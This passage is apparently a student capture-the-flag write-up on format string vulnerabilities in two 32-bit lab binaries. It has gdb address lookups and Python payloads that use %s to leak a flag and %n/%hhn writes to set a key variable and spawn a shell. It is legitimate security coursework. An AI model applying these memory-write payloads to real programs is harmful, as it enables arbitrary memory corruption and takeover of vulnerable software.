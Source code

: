 <!--
checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)

Análise do source code
Linha do código onde está a vulnerabilidade
- printf(buffer). buffer's contents from the user's input, i.e. controlled by the user. This is vulnerable to a format string attack. We can easily supply a format string that prints the contents of the program's memory.
- This vulnerability allows the printing of the program's memory, the stack and heap, and allows writing on it.
- To read the flag, we need to pass the address of the flag to printf. Then, by using the %s format string, we can print the flag's contents. We need make %s read the address of the flag that we passed, as we did in the seedlabs guide.

In checksec, we can see that PIE is not enabled. This means that the addresses of the program are fixed. As sugested on the moodle assignment, we can use gdb to find the address of the flag variable, which is located on the heap.

b main
run
next
p &flag

Using p &flag, we can find the address of the flag.
0x804c060

Or we can run python3 exploit_example.py which pauses the execution

Then we can attach in another terminal to the process by doing
gdb attach <pid>
p &flag
0x804c060

Since PIE is disabled, we can use this same address for the server, and it works.
-->
```python

N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

flag_addr = 0x804c060   # the flag address read in the local instance using gdb
content[0:4] = (flag_addr).to_bytes(4,byteorder='little')

s = "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt


p.recvuntil(b"got:")
p.sendline(content)
p.interactive()

```


## Challenge 2
<!--
checksec program
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)


Análise source code:
- The vulnerability is the same, it's the line `printf(buffer)`. buffer is given/controlled by user input. We can provide a format string as input. This allows us to print the contents of the program's memory, as well as writing on the memory.
- In this challenge, the flag is not in memory when the vulnerable printf(buffer) executes. This means we cannot simply read the flag from memory. However, in this case, a shell program is launched if a certain variable in the program's heap has a defined value. So, we just need to change the value of that variable (key) to be the one that passes the if clause. In that case, we'll gain access to the shell and be able to read the contents of the file flag.txt, by doing "cat flag.txt".

The value to pass the if clause is "0xbeef", which is 48879 in decimal.
To write values in the program's memory using a format string vulnerability, we must use %n, which prints the number of characters read until that point on the string. So we need to print 48879 characters in that printf. Then, we just do as in the guide. We need to know the address of the "key" variable. If %n sees that address as the argument, it will change the value of that variable with the characters read.

We can copy the python file from the first challenge and change a few things. We need to change the server to be 4005, and start by testing locally (LOCAL = True)
We need to also change the receive until to be until we receive a '...' sequence, since it is different in this challenge.

We can do the same as before. First run the program using python exploit.py in a terminal, and then attaching to that process using gdb attach <pid>

Then inside gdb, we can simply do:

gdb-peda$ p &key
$1 = (int *) 0x804b320 <key>

and we have read the address of the key variable (inside the heap).
Since there is no PIE, we know this address will be fixed.


%48879x%n


Put:
any 4 bytes at the beginning of the string
the 4 bytes for the address of the variable "key"
%(bignumber)x   -> will read the first 4 bytes of the string as an argument
%n  -> will read the address of the variable "key" as an argument, effectively writing the number of characters printed until now in that variable

48879 - 8 = 48871

"0000<addr>%48871x%n"

"ABCD<key_addr>%48871x%n"


Since this was not working, we tried this input:


s = "ABCD" + "%x" * 8
fmt = (s).encode('latin-1')
content[0: len(fmt)] = fmt

It resulted in this output
You gave me this:ABCD4443424178257825782578257825782578257825000
It shows that the first %x reads the "ABCD", as we expected, the rest is just reading the "%x"

Not understanding how this works, we tested several other things. We came to the conclusion that the address of the variable had the value 0x20, which represents a space. The problem is that scanf stops reading after receiving a space, so our input did not get fully sent.



SO THE SOLUTION WE CAME UP FOR THIS WAS:
writing the value of the address of the variable key (which had a space on it) by using %n and not directly through the input

In task 3.C of the guide of format string vulnerabilities, it is referenced that we can use %hn to modify a one byte memory space. We can use this to change the value of the address of the variable key.
So instead of inputting the exact value of the address, we replace 0x20 by, for example, 0xff, and then overwrite it using %hn with the correct value 0x20.

But for this, we need to pass the exact address of the byte that we want to change. The address of the buffer is 0xffffd160 so we can pass that on the input. Since we need to pass the exact address of the byte, we can calculate it.


Notes
address of buffer: 0xffffd160
2^16 = 65536

payload:
ABCD<buffer_addr - x><key_addr w/o 0x20>

-->
```python
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd160 + 8

content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')
content[8:12] = ("ABCD").encode('latin-1')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[12:16] = (key_addr).to_bytes(4,byteorder='little')

s = "%496x%hhn%48367x%n"

fmt  = (s).encode('latin-1')
content[16:16 + len(fmt)] = fmt
```
Above is a try to make the address of the variable key be changed to 0x20 and be able to write the value 48879 in it.
Does not work because the content would have 34 bytes.

In order to reduce the size, we tried doing this:

```python
N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd1c0 + 8
content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[8:12] = (key_addr).to_bytes(4,byteorder='little')

s = "%20x%hhn%1$48847x%n"

fmt  = (s).encode('latin-1')
content[12:12 + len(fmt)] = fmt
```

After a few minor oopsies in the code, we managed to get the flag with this code.
